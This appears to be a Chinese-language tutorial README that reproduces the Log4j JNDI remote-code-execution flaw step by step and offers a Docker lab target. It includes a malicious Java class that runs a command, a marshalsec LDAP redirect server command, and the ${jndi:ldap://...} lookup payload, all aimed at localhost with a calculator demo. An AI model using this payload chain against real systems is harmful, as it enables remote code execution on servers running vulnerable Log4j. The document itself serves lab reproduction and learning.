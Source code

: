 # Log4J 漏洞复现+漏洞靶场

昨天晚上朋友圈算是过了年了，一个log4j大伙都忙了起来，看着朋友圈好久没这么热闹了。Apache 的这个log4j这个影响范围的确是大，包括我自己做开发的时候也会用到log4j，这就很尴尬了。

大家也不要在公网上疯狂测试了，我给大家带来了漏洞靶场，攻击视频在下文，一步一步教你。

漏洞原理我改天会详细的写一篇文章出来，今天就主要是复现一下漏洞。

昨晚爆出的log4j rce 是通过lookup触发的漏洞，但jdk1.8.191以上默认不支持ldap协议，对于高版本jdk,则需要一定的依赖。不过为了给大家最简单的说明，我这里还是用jdk1.8.144的版本来运行。



这个漏洞和fastjson的漏洞利用如出一辙，首先需要编写一个恶意类。

```java
public class Exploit {
    public Exploit(){
        try{
            // 要执行的命令
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```

这里是弹出计算器

把这个类编译之后会得到一个Exploit.class，然后需要在当前目录下启动一个web服务，

```
python3 -m http.server 8100
```

![](https://files.mdnice.com/user/5230/536968c2-57ad-4ea7-bcd1-6333d148c118.png)







然后用**[marshalsec](https://github.com/mbechler/marshalsec)** IDAP服务，项目地址：https://github.com/mbechler/marshalsec

```
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```

![](https://files.mdnice.com/user/5230/fc5dbacb-4d97-457e-8bc9-ee87f49c824f.png)



漏洞类

```java

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error(   "${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}

```

## 最后运行

![](https://files.mdnice.com/user/5230/504c49b8-b495-4e79-9afc-37d8a2934b59.png)



演示视频：

https://www.bilibili.com/video/bv1WP4y137PP


## 漏洞靶场

为了互联网的安全，也为了给大家学习的环境，有很多同学不知道如何复现，我搭建了一个漏洞靶场，我编写的docker-compose.yml 

地址是：https://github.com/fengxuangit/log4j_vuln

或者直接运行命令

```
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln 
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh 
```

然后访问你的8080的端口，按照视频教程玩就行。你的靶场你自己随便玩！







### Infrastructure model

![Infrastructure model](.infragenie/infrastructure_model.png)